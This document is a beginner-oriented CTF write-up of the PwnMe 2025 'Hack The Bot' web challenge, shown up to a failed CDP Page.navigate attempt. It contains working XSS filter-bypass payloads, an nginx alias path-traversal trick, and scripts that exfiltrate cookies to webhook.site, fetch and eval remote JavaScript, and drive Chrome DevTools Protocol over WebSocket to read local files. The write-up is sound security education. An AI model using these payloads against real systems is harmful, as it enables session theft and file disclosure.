

Hey! Today we will be exploring **Hack The Bot 1 and 2** together, a lovely 2-part web challenge that came up in the recent **PwnMe 2025 CTF** and had ~11 solves towards the end of the competition. I solved it with my teammate **@qlashx**.

I will be covering some of the methodology to approach similar challenges while discussing topics such as Cross-Site Scripting (XSS), Same-origin Policy (SOP), WebSockets and more, trying to be beginner-friendly throughout.

## Chapter 1: Eagle View
First, and since we are given the source code, let's start by exploring the app from a distance. 

The app's directory looks as follows:
```sh
tree .
.
├── Dockerfile
├── README
├── flag2.txt
├── nginx.conf
└── source
    ├── app.js
    ├── package.json
    ├── public
    │   ├── css
    │   │   └── style.css
    │   └── js
    │       └── script.js
    └── views
        ├── index.ejs
        └── report.ejs

5 directories, 12 file
```

We will start off by checking the `Dockerfile` provided as it can often tell us many useful information about the target application.

```dockerfile
FROM node:18-slim

RUN apt-get update && apt-get install -y \
    gconf-service libasound2 libatk1.0-0 libcairo2 libcups2 libfontconfig1 libgdk-pixbuf2.0-0 \
    libgtk-3-0 libnspr4 libpango-1.0-0 libxss1 fonts-liberation libappindicator1 libnss3 \
    lsb-release xdg-utils wget nginx


RUN wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb && \
    dpkg -i google-chrome-stable_current_amd64.deb; apt-get -fy install && \
    rm google-chrome-stable_current_amd64.deb

RUN mkdir -p /app /tmp/bot_folder/logs /tmp/bot_folder/browser_cache

COPY /source /app
COPY flag2.txt /root/
COPY nginx.conf /etc/nginx/nginx.conf

WORKDIR /app

RUN npm install

EXPOSE 80

CMD service nginx start && node app.js
```

Let's see what can we take away from the Dockerfile.
1. From the first line, we notice that we have a Node application.
2. We notice `wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb` which is used to download Google Chrome, this hints at a potential XSS vulnerability.
3. We are setting up two interesting directories `/tmp/bot_folder/logs` and `/tmp/bot_folder/browser_cache`. We will keep these in mind.
4. We have `/root/flag2.txt`.
5. Our Node application seems to be served through an **nginx** reverse proxy.

Great! Let's see what **nginx** has to tell us by exploring `nginx.conf`:
```nginx
events{}
user root;

http {
    server {
        listen 80;

        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /logs {
            autoindex off;
            alias /tmp/bot_folder/logs/;
            try_files $uri $uri/ =404;
        }
    }
}
```

As we move forward with our code review, we should note all the "primitives" and vulnerabilities we come across as they may always be relevant for us at a later stage of exploitation.

Looking at the `nginx.conf`, we can right away spot a very subtle, misconfigured alias. You can read more about this misconfiguration [here](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/) and [here](https://davidhamann.de/2022/08/14/nginx-alias-traversal/)

Simply, if we visit `/log../a`, nginx is going to replace the prefix `/log` with the alias, yielding `/tmp/bot_folder/logs/../a`.

This will then be *normalized* to `/tmp/bot_folder/a`, effectively traveling one directory up and reading content inside the `bot_folder` directory instead of the `logs` directory as we are expected.

We still do not know if this is useful to us, so we will keep it in our back pocket.

Let's jump into the actual app!

## Chapter 2: Landing our XSS
Since we are dealing with a Node application, we can use a nifty feature of `npm` (Node's package manager) to check for low-hanging fruits and possible vulnerable dependencies. These could give us a quick win:
```sh
npm audit

--- snip ---

8 vulnerabilities (3 low, 1 moderate, 4 high)

To address all issues, run:
  npm audit fix
```

`npm audit` looks at the dependencies in `package.json` and checks for any reported CVEs or security advisories against them. We get a few hits, but none seem relevant upon inspection.

Let's move to `app.js`.  We quickly scan its imports:
```js
const express = require('express');
const path = require('path');
const fs = require('fs');
const { spawn } = require('child_process');
const puppeteer = require('puppeteer');
const { format } = require('date-fns');
```

Nothing fancy, just an Express app. We can also see that `puppeteer` is brought in, which explains why we saw Google Chrome downloaded in the Dockerfile earlier.

As with any web application, let's check out its routes as these are often our only entrance  to the application:
```sh
app.get('/', (req, res) => {
    res.render('index');
});

app.get('/report', (req, res) => {
    res.render('report');
});

app.post('/report', (req, res) => {
    const url = req.body.url;
    const name = format(new Date(), "yyMMdd_HHmmss");
    startBot(url, name);
    res.status(200).send(`logs/${name}.log`);
});
```

Let's check the index page at `views/index.ejs`:


The index page seems to contain a bunch of snippets to perform a variety of attacks. It looks like this:
```html
<div class="col-md-4 article-box">
	<div class="article-title">XSS Injection</div>
	<div class="article-content">
		<ul>
		  <br>
		  <h5>Payloads</h5>
		  <li>&lt;script&gt;alert(1)&lt;/script&gt;</li>
		  <li>&lt;img src=x onerror=print()&gt; </li>
		  <li>&lt;img src="javascript:alert('XSS')"&gt;</li>
		  <li>&lt;svg/onload=fetch('https://aa.com')&gt;</li>
		  <br>
		  <h5>No-interactions events</h5>
		  <li>onfocus, onstart, onbeforeunload, onhashchange, ontoggle
		</ul>
	</div>
</div>
<div class="col-md-4 article-box">
	<div class="article-title">SQL Injection</div>
	<div class="article-content">
		<ul>
		  <br>
		  <h5>Payloads</h5>
		  <li>' OR '1'='1 </li> 
		  <li>'; DROP TABLE users;</li> 
		  <li>' UNION SELECT 1, username, password FROM users -- </li>
		  <br>
		  <h5>Identify backend</h5>
		  <li>sleep(10) #mysql 
		  <li>pg_sleep(10) #Postgresql 
		  <li>WAITFOR DELAY '0:0:10' # MSQL
		</ul>
	</div>
</div>
```

We can notice that it is loading an interesting `script.js` towards the end:
```html
<script src="/js/script.js"></script>
```

Exploring the script, we can see basic functionality to handle reports:
```js
$(document).ready(function() {
    $('#reportForm').on('submit', function(e) {
        e.preventDefault();
        var url = $('#urlInput').val();
        var messageElement = $('#message');

        $.ajax({
            type: 'POST',
            url: '/report',
            data: { url: url },
            success: function(response) {
                var messageHtml = `In progress, you can check logs <a href="${response}"style="color: green; text-decoration: underline;">here</a>`;
                messageElement.html(messageHtml).removeClass('error').addClass('success');
            },
            error: function(xhr) {
                messageElement.text('Erreur: ' + xhr.responseText).removeClass('success').addClass('error');
            }
        });
    });
});
```

We notice that jQuery is being used as well as some search functionality. Let's break it down:

1. We have `getSearchQuery`, responsible for extracting the `?q=` search param:
	```js
	function getSearchQuery() {
	    const params = new URLSearchParams(window.location.search);
	    // Utiliser une valeur par défaut de chaîne vide si le paramètre n'existe pas
	    return params.get('q') ? params.get('q').toLowerCase() : '';
	}
	```

2. When the page loads, the search query is extracted using the previous function and we call another function, `searchArticles`, using that query:
	```js
	document.addEventListener('DOMContentLoaded', function() {
	    const searchQuery = getSearchQuery();
	    document.getElementById('search-input').value = searchQuery; 
	    if (searchQuery) {
	        searchArticles(searchQuery);
	    }
	});
	```

3. The `searchArticles` function looks like this:
	```js
	function searchArticles(searchInput = document.getElementById('search-input').value.toLowerCase().trim()) {
	    const searchWords = searchInput.split(/[^\p{L}]+/u);
	    const articles = document.querySelectorAll('.article-box');
	    let found = false;
	    articles.forEach(article => {
	        if (searchInput === '') {
	            article.style.display = '';
	            found = true;
	        } else {
	            const articleText = article.textContent.toLowerCase();
	            const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
	            if (isMatch) {
	                article.style.display = '';
	                found = true;
	            } else {
	                article.style.display = 'none';
	            }
	        }
	    });
	    const noMatchMessage = document.getElementById('no-match-message');
	    if (!found && searchInput) {
	        noMatchMessage.innerHTML = `No results for "${searchInput}".`;
	        noMatchMessage.style.display = 'block';
	    } else {
	        noMatchMessage.style.display = 'none';
	    }
	}
	```

The function is vulnerable to XSS when no results are found:
```js
noMatchMessage.innerHTML = `No results for "${searchInput}".`;
```

We need to get the function to return no results. However, notice that the search functionality acts as a naive filter that prevents us from reaching the vulnerable `!found` code path. Here is an example with a typical XSS payload:


The search functionality does a few interesting things:
1. It splits by non-letter Unicode characters (This means we remove all punctuation and special characters from the search):
	```js
	// \p{L} matches a single code point in the category "letter".
	const searchWords = searchInput.split(/[^\p{L}]+/u);
	```

2. It checks if any word in the search query is present in the code snippets on the page:
	```js
	const articleText = article.textContent.toLowerCase();
	const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
	```

There are many ways to bypass this trivial filter. We could have used a trivial `eval` with `atob` however this would fail because the search query is converted to lowercase at the start which breaks any Base64 encoding.

Here are three possible bypasses that all run `alert(1)`:
```html
<!-- by @qlashx -->
<input oncontentvisibilityautostatechange='eval("\141\154\145\162\164\50\61\51")' style=content-visibility:auto>

<!-- by @abd0ghazy -->
<video onloadstart="eval('\141\154\145\162\164\50\61\51')"><source></*> 

<!-- by challenge author -->
<iframe srcdoc="&#60&#105&#109&#103&#32&#115&#114&#99&#32&#111&#110&#101&#114&#114&#111&#114&#61&#97&#108&#101&#114&#116&#40&#49&#41&#62">
```

These three payloads all work for two reasons:
1. The "words" in them like `input`, `iframe` and `onloadstart` do not exist in the articles on the page.
2. The other parts that are included such as `alert(1)` are encoded using non-letter representations such as octal `\141` and HTML entity encoded `&#60`.

Essentially, they both allow us to bypass the filter and execute the insecure *No results for* code path:


What we have here is a **DOM-based XSS**. Why? Because without server involvement whatsoever, the client-side Javascript manipulates the user' input allowing us to run arbitrary client-side code.

> Note: This currently requires user interaction, as the user has to input the search query in the search box. Let's see how we can weaponize it and possibly deliver it to the bot.

## Chapter 3: XSS Delivery
Getting a DOM-based XSS is not big on it's own, until we can find a way to deliver it to our target.

Remember the `getSearchQuery` function?
```js
function getSearchQuery() {
	const params = new URLSearchParams(window.location.search);
	// Utiliser une valeur par défaut de chaîne vide si le paramètre n'existe pas
	return params.get('q') ? params.get('q').toLowerCase() : '';
}
```

It allows us to use the `?q=` search parameter to enter our search query. For example, if we request:
```
http://localhost/?q=<video onloadstart="eval('\141\154\145\162\164\50\61\51')"><source></*>
```

We trigger an alert. However, this time it is **deliverable**. We can send it to our target!


Let's write a simple Python script to help us experiment with different payloads faster:
```python
from urllib.parse import quote

payload = b'setTimeout(()=>{fetch("https://webhook.site/?q="+btoa(document.cookie))}, 2000)'

# this will not run in Python <3.12 where format strings couldn't have backslashes
# throwing: SyntaxError: f-string expression part cannot include a backslash
xss = f"<input oncontentvisibilityautostatechange='eval(\"{'\\' + '\\'.join([oct(i)[2:] for i in payload])}\")' style=content-visibility:auto>"

print('http://localhost/?q='+quote(xss))
```

This encodes our payload in octal, wraps it in our `<input>` trigger, URL encodes it and gives us a URL that we can directly send to the bot on `/report`.

> **Note:** Because of the unconventional way the cookie is set on the bot, where it is set after the bot visits our URL, there is a race condition between our XSS payload executing and the cookie setting.
> ```js
> const page = await browser.newPage();
> await page.goto(url);
> 
> if (url.startsWith("http://localhost/")) {
> 	await page.setCookie(cookie);
> }
> ```
>  Because of that, we introduce a 2-second delay to give ample time for the cookie to be available before we exfiltrate it. This is achieved using `setTimeout` as seen above.

Two seconds later, we receive a callback containing the first flag:


Nice. We got our first flag!

## Chapter 4: Bot Control
So far, we found two primitives:
1. A path traversal due to an off-by-slash nginx alias misconfiguration.
2. A deliverable DOM-based XSS in the app's search functionality

Our next objective is reading the second flag at `/root/flag2.txt` as seen earlier in the Dockerfile.

Let's look at the `startBot` function we skipped over earlier:
```js
async function startBot(url, name) {
    const logFilePath = path.join(logPath, `${name}.log`);

    try {
        const logStream = fs.createWriteStream(logFilePath, { flags: 'a' });
        logStream.write(`${new Date()} : Attempting to open website ${url}\n`);

        const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--remote-allow-origins=*','--no-sandbox', '--disable-dev-shm-usage', `--user-data-dir=${browserCachePath}`]
        });

        const page = await browser.newPage();
        await page.goto(url);

        if (url.startsWith("http://localhost/")) {
            await page.setCookie(cookie);
        }

        logStream.write(`${new Date()} : Successfully opened ${url}\n`);
        
        await sleep(7000);
        await browser.close();

        logStream.write(`${new Date()} : Finished execution\n`);
        logStream.end();
    } catch (e) {
        const logStream = fs.createWriteStream(logFilePath, { flags: 'a' });
        logStream.write(`${new Date()} : Exception occurred: ${e}\n`);
        logStream.end();
    }
}
```

Let's break down the important parts:
1. We create a `.log` file at `${name}.log`, using it to log any events or errors that occur with the bot.
2. We use Puppeteer to launch a Chrome instance, launching it with the following flags:
	```
	'--remote-allow-origins=*'
	'--no-sandbox'
	'--disable-dev-shm-usage'
	`--user-data-dir=${browserCachePath}`
	```
3. We open the user provided URL, set the flag cookie for `http://localhost/` and sleep for 7 seconds before exiting.

These CLI flags piqued my interest, let's see what [each of them means](https://peter.sh/experiments/chromium-command-line-switches/).
- `--remote-allow-origins`: Enables web socket connections from the specified origins only. `'*'` allows any origin.
- `--user-data-dir`: Makes Content Shell use the given path for its data directory.
- `--no-sandbox`: Disables the sandbox for all process types that are normally sandboxed.

Interesting. the Chrome user data directory is set to `/tmp/bot_folder/browser_cache/`. We know that we can read any file in there thanks to our path traversal primitive.

Let's inspect our challenge locally to see what is inside the Chrome user data directory, perhaps there is something useful to grab from there:
```
# ls -la /tmp/bot_folder/browser_cache
total 100
drwxr-xr-x  1 root root  4096 Mar  5 14:40  .
drwxr-xr-x  1 root root  4096 Mar  1 11:52  ..
drwx------ 31 root root  4096 Mar  5 14:40  Default
-rw-r--r--  1 root root    60 Mar  5 14:40  DevToolsActivePort
drwx------  2 root root  4096 Mar  5 14:40  GrShaderCache
drwx------  2 root root  4096 Mar  5 14:40  GraphiteDawnCache
-rw-r--r--  1 root root    13 Mar  5 14:40 'Last Version'
-rw-------  1 root root  3731 Mar  5 14:40 'Local State'
drwx------  2 root root  4096 Mar  5 14:40 'Safe Browsing'
drwx------  2 root root  4096 Mar  5 14:40  ShaderCache
-rw-r--r--  1 root root    85 Mar  5 14:40  Variations
-rw-------  1 root root 49152 Mar  5 14:40  first_party_sets.db
-rw-------  1 root root     0 Mar  5 14:40  first_party_sets.db-journal
drwx------  2 root root  4096 Mar  5 14:40  segmentation_platform
```

We can see Chrome user files including disk cache and other things. We can also notice `DevToolsActivePort` which looks like this:
```
33785
/devtools/browser/4c7a5d50-9e18-45c6-8190-093bf4967eb0
```

The file contains a reference to the **Chrome DevTools Protocol (CDP)** port. This protocol is the engine behind the Chrome DevTools:
> The Chrome DevTools Protocol allows for tools to instrument, inspect, debug and profile Chromium, Chrome and other Blink-based browsers. Many existing projects currently use the protocol. The Chrome DevTools uses this protocol and the team maintains its API. [Reference](https://chromedevtools.github.io/devtools-protocol/)

Wow! In normal instances, Same-origin Policy (SOP) wouldn't allow us to connect to CDP because it lives on a different origin. However, our Chromium was launched with `--remote-allow-origins=*` which as we saw earlier **enables web socket connections from any origin**.

Let's try talking to it using our earlier XSS.

> **Note:** There are plenty of ways to deliver a large payload through a URL
> 1. We could use our initial XSS to open a new same-origin window (`window.open`) then use `window.name` to deliver our complete XSS payload.
> 2. We could serve our complete payload on a Cross-origin Request Sharing (CORS) enabled site, and fetch-eval the served JS using our initial payload. I will be using this option.

Our initial XSS payload will always be:
```js
fetch('http://webhook.site/<id>').then(r => r.text()).then(text => eval(text))
```

This gives us a simple "stager" that allows us to freely serve the complete payload on `http://webhook.site/<id>`.

We will first fetch the current `DevToolsActivePort`. This does not breach SOP, since the path traversal is on our same origin:
```js
(async () => {
	const hook = 'http://webhook.site/<id>/'
	const r = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort').then(r => r.text())
	let [port, path] = r.split('\n')
	const devTools = `http://localhost:${port}${path}`
})
```

Now that we have crafted the `devTools` CDP endpoint, let's confirm that we can talk to it by exfiltrating it's response back to us.

First, we will look at the [CDP documentation](https://chromedevtools.github.io/devtools-protocol/) to see how we can speak with it. I really recommend reading that page.

The CDP protocol is based on web sockets. It also offers a few convenience HTTP endpoints such as `/json/version` and `/json/list`.

If we try to access any of the HTTP endpoints, we will notice they are inaccessible to us and we are unable read them due to SOP and CORS.

This confirms that the `--remote-allow-origins=*` flag affects web socket connections only.

Let's try to connect to the web socket endpoint directly then. With some research, we notice that there is two kinds of APIs available us through CDP:
1. Browser-level
2. Page-level

> **Note:** Page-level APIs are available if we are connected to a page context such as `/devtools/page/<id>`. However, we got a browser context endpoint `/devtools/browser/<id>` from the `DevToolsActivePort` we read earlier.

We will keep this in mind as we move forward. For now, let's try to call a browser-level method such as [Browser.getVersion](https://chromedevtools.github.io/devtools-protocol/tot/Browser/#method-getVersion)


Let's try:
```js
...
const ws = new WebSocket(devTools)

ws.onopen = () => {
	ws.send(JSON.stringify({
	id: 1,
	method: 'Browser.getVersion'
	}));
};

ws.onmessage = async (event) => {
	const data = JSON.parse(event.data)

	await fetch(hook+'data', {method: 'POST', body: JSON.stringify(data)}).then(r => r.text())
};
...
```

This opens up a new WebSocket connection, `onopen`, it sends a JSON-encoded `Browser.getVersion` and will exfiltrate any response back to our hook through POST requests.

Running this payload, we receive this back on our hook:
```json
{
  "id": 1,
  "result": {
    "protocolVersion": "1.3",
    "product": "Chrome/127.0.6533.88",
    "revision": "@a2d0cb026721e4644e489b8ebb07038ca4e4351c",
    "userAgent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.0.0 Safari/537.36",
    "jsVersion": "12.7.224.16"
  }
}
```

Excellent! We can communicate with CDP and get back responses.

Sadly, we can not call methods such as `Page.navigate` yet because, as we said, we are not in a page context. Think we are controlling the browser, not a specific page yet.

Looking through the documentation, I found [Target.getTargets](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-getTargets) which allows us to list targets, like pages, to attach to.

With the `targetId` in hand, I tried to use `Target.attachToTarget` to attach to our target:
```js
function exfil(data) {
	fetch(hook + "message", { method: "POST", body: data });
}

ws.onopen = () => {
	ws.send(
		JSON.stringify({
			id: 1,
			method: "Target.getTargets",
		})
	);
};

ws.onmessage = (event) => {
	let data = JSON.parse(event.data);

	switch (data.id) {
		case 1:
			const targetId = data.result.targetInfos[1].targetId;
			exfil(event.data);
			ws.send(
				JSON.stringify({
					id: 2,
					method: "Target.attachToTarget",
					params: { targetId },
				})
			);
			break;
		case 2:
			exfil(event.data);

			ws.send(
				JSON.stringify({
					id: 3,
					method: "Page.navigate",
					params: { url: "file:///root/flag2.txt" },
				})
			);

			break;
		case 3:
			exfil(event.data);
			break;
	}
};
```

In the payload, we use a simple `switch` based on the `data.id` to ensure correct handling of each message in the CDP command chain. We also utilize an `exfil` function to help us exfiltrate useful data through our hook. 

Looking at the output back at our hook, we see that the attaching occurred but we still couldn't use `Page.navigate` afterwards. Here are the outputs exfiltrated from each stage:
```js
{
  "id": 1,
  "result": {
    "targetInfos": [
      {
        "targetId": "EA039F1BA374CAE84859319774D4FF1E",
        "type": "page",
        "title": "Test XSS",
        "url": "http://localhost/?q=<redacted>",
        "attached": true,
        "canAccessOpener": false,
        "browserContextId": "2F0C0E397D2F6D44BAC97F8EB78FEFAF"
      },
      {
        "targetId": "350ECE9E405006B9F766A82EC0822BB5",
        "type": "page",
        "title": "about:blank",
        "url": "about:blank",
        "attached": true,
        "canAccessOpener": false,
        "browserContextId": "2F0C0E397D2F6D44BAC97F8EB78FEFAF"
      }
    ]
  }
}
```

```json
{
  "id": 2,
  "result": {
    "sessionId": "9DEB65C99FD436B634D2A022BC0540FD"
  }
}
```

```json
{
  "id": 3,
  "error": {
    "code": -32601,
    "message": "'Page.navigate' wasn't found"
  }
}
```

